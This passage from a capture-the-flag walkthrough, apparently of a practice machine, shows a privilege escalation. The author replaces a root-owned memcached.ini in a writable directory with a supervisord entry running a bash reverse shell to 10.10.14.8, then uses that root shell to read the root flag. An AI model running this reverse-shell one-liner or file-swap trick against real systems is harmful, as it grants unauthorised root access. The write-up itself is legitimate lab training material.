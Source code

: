 By seeing the file permissions,

```c
lacasadepapel [~]$ ls -la
total 3032
drwxr-sr-x    4 professo professo      4096 Sep 15 11:36 .
drwxr-xr-x    7 root     root          4096 Feb 16  2019 ..
lrwxrwxrwx    1 root     professo         9 Nov  6  2018 .ash_history -> /dev/null
drwx------    2 professo professo      4096 Jan 31  2019 .ssh
-rw-r--r--    1 root     root            88 Jan 29  2019 memcached.ini
-rw-r-----    1 root     nobody         434 Jan 29  2019 memcached.js
drwxr-sr-x    9 root     professo      4096 Jan 29  2019 node_modules
-rwxr-xr-x    1 professo professo   3078592 Sep 15 11:36 pspy64
lacasadepapel [~]$ ls -ld .
drwxr-sr-x    4 professo professo      4096 Sep 15 11:36 .
```

```memcached.ini``` is owned by ```root```, but the directory is owned by ```professor```

We cannot edit the file, but we can remove it with a prompt

```c
lacasadepapel [~]$ mv memcached.ini /tmp
lacasadepapel [~]$ echo -e "[program:memcached]\ncommand = bash -c 'bash -i  >& /dev/tcp/10.10.14.8/6868 0>&1'" > memcached.ini
lacasadepapel [~]$ cat memcached.ini 
[program:memcached]
command = bash -c 'bash -i  >& /dev/tcp/10.10.14.8/6868 0>&1'
```

After placing our ```bash oneliner reverse shell``` inside ```memcached.ini```, just patiently wait for the time until ```supervisord``` attempts to run it

When it triggers, it will spawn a reverse shell with ```root``` level privilege in our ```netcat``` listener

```c
┌──(aidenpearce369㉿aidenpearce369)-[~]
└─$ nc -nlvp 6868       
listening on [any] 6868 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.131] 42774
bash: cannot set terminal process group (11868): Not a tty
bash: no job control in this shell
bash-4.4# whoami
whoami
root
bash-4.4# id
id
uid=0(root) gid=0(root) groups=0(root),0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
bash-4.4# cat /root/root.txt
cat /root/root.txt
<---ROOT FLAG--->
bash-4.4# 
```
